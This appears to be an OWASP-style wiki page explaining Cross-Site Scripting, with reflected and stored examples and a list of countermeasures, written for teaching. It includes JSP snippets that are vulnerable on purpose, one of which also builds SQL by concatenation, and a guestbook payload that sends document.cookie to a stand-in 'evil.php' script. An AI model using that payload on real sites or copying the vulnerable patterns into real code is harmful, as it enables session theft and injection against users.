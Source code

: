 `REDIRECT `[`Cross-site``   ``Scripting``
 ``(XSS)`](Cross-site_Scripting_\(XSS\) "wikilink")

## Description

Cross-Site Scripting attacks are an instantiation of injection problems,
in which malicious scripts are injected into the otherwise benign and
trusted web sites.

Cross-Site Scripting (XSS) vulnerabilities occur when:

1\. Data enters a Web application through an untrusted source, most
frequently a web request. 2. The data is included in dynamic content
that is sent to a web user without being validated for malicious code.

The malicious content sent to the web browser often takes the form of a
segment of JavaScript, but may also include HTML, Flash or any other
type of code that the browser may execute. The variety of attacks based
on XSS is almost limitless, but they commonly include transmitting
private data like cookies or other session information to the attacker,
redirecting the victim to web content controlled by the attacker, or
performing other malicious operations on the user's machine under the
guise of the vulnerable site.

Consequences

  - Confidentiality: The most common attack performed with cross-site
    scripting involves the disclosure of information stored in user
    cookies.

<!-- end list -->

  - Access control: In some circumstances it may be possible to run
    arbitrary code on a victim's computer when cross-site scripting is
    combined with other flaws

Exposure Period

  - Implementation: If bulletin-board style functionality is present,
    cross-site scripting may only be deterred at implementation time.

Platform

  - Language: Any
  - Platform: All (requires interaction with a web server supporting
    dynamic content)

Required Resources

  - Any

Severity

  - Medium

Likelihood of Exploit

  - Medium

Discussion

Cross-site scripting attacks can occur wherever an untrusted user has
the ability to publish content to a trusted web site. Typically, a
malicious user will craft a client-side script, which - when parsed by a
web browser - performs some activity (such as sending all site cookies
to a given E-mail address).

If the input is unchecked, this script will be loaded and run by each
user visiting the web site. Since the site requesting to run the script
has access to the cookies in question, the malicious script does also.

There are several other possible attacks, such as running "Active X"
controls (under Microsoft Internet Explorer) from sites that a user
perceives as trustworthy; cookie theft is however by far the most
common.

All of these attacks are easily prevented by ensuring that no script
tags - or for good measure, HTML tags at all - are allowed in data to be
posted publicly.

## Examples

Cross-site scripting attacks may occur anywhere that possibly malicious
users are allowed to post unregulated material to a trusted web site for
the consumption of other valid users.

The most common example can be found in bulletin-board web sites which
provide web based mailing list-style functionality.

**Example 1**

The following JSP code segment reads an employee ID, eid, from an HTTP
request and displays it to the user.

```
       <% String eid = request.getParameter("eid"); %>
       ...
       Employee ID: <%= eid %>
```

The code in this example operates correctly if eid contains only
standard alphanumeric text. If eid has a value that includes
meta-characters or source code, then the code will be executed by the
web browser as it displays the HTTP response.

Initially this might not appear to be much of a vulnerability. After
all, why would someone enter a URL that causes malicious code to run on
their own computer? The real danger is that an attacker will create the
malicious URL, then use e-mail or social engineering tricks to lure
victims into visiting a link to the URL. When victims click the link,
they unwittingly reflect the malicious content through the vulnerable
web application back to their own computers. This mechanism of
exploiting vulnerable web applications is known as Reflected XSS.

**Example 2**

The following JSP code segment queries a database for an employee with a
given ID and prints the corresponding employee's name.

```
       <%...
        Statement stmt = conn.createStatement();
        ResultSet rs = stmt.executeQuery("select * from emp where id="+eid);
        if (rs != null) {
         rs.next();
         String name = rs.getString("name");
       %>

       Employee Name: <%= name %>
```

As in Example 1, this code functions correctly when the values of name
are well-behaved, but it does nothing to prevent exploits if they are
not. Again, this code can appear less dangerous because the value of
name is read from a database, whose contents are apparently managed by
the application. However, if the value of name originates from
user-supplied data, then the database can be a conduit for malicious
content. Without proper input validation on all data stored in the
database, an attacker can execute malicious commands in the user's web
browser. This type of exploit, known as Stored XSS, is particularly
insidious because the indirection caused by the data store makes it more
difficult to identify the threat and increases the possibility that the
attack will affect multiple users. XSS got its start in this form with
web sites that offered a "guestbook" to visitors. Attackers would
include JavaScript in their guestbook entries, and all subsequent
visitors to the guestbook page would execute the malicious code.

As the examples demonstrate, XSS vulnerabilities are caused by code that
includes unvalidated data in an HTTP response. There are three vectors
by which an XSS attack can reach a victim:

  - As in Example 1, data is read directly from the HTTP request and
    reflected back in the HTTP response. Reflected XSS exploits occur
    when an attacker causes a user to supply dangerous content to a
    vulnerable web application, which is then reflected back to the user
    and executed by the web browser. The most common mechanism for
    delivering malicious content is to include it as a parameter in a
    URL that is posted publicly or e-mailed directly to victims. URLs
    constructed in this manner constitute the core of many phishing
    schemes, whereby an attacker convinces victims to visit a URL that
    refers to a vulnerable site. After the site reflects the attacker's
    content back to the user, the content is executed and proceeds to
    transfer private information, such as cookies that may include
    session information, from the user's machine to the attacker or
    perform other nefarious activities.

<!-- end list -->

  - As in Example 2, the application stores dangerous data in a database
    or other trusted data store. The dangerous data is subsequently read
    back into the application and included in dynamic content. Stored
    XSS exploits occur when an attacker injects dangerous content into a
    data store that is later read and included in dynamic content. From
    an attacker's perspective, the optimal place to inject malicious
    content is in an area that is displayed to either many users or
    particularly interesting users. Interesting users typically have
    elevated privileges in the application or interact with sensitive
    data that is valuable to the attacker. If one of these users
    executes malicious content, the attacker may be able to perform
    privileged operations on behalf of the user or gain access to
    sensitive data belonging to the user.

`  * A source outside the application stores dangerous data in a database or other data store, and the dangerous data is subsequently read back into the application as trusted data and included in dynamic content.`

**Example 3 (real)**

Taking guestbook as another example. If the application doesn't validate
the input data, in a very easy way the attacker may try to steal the
cookie from the authenticated user. All the attacker has to do is to
place in the comment field the following code:

    <SCRIPT type="text/javascript">
    var adr = '../evil.php?cakemonster=' + escape(document.cookie);
    </SCRIPT>

Above code will pass an escaped content of the cookie (according to RFC
content must be escaped before sending it via HTTP protocol with GET
method) to the evil.php script in "cakemonster" variable.

## Related Threats

## Related Attacks

  - [XSS Attacks](XSS_Attacks "wikilink")
  - [Invoking untrusted mobile
    code](Invoking_untrusted_mobile_code "wikilink")

## Related Vulnerabilities

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related Countermeasures

  - [:Category:Input Validation
    Control](:Category:Input_Validation_Control "wikilink")
  - [HTML Entity Encoding](HTML_Entity_Encoding "wikilink")

## Categories
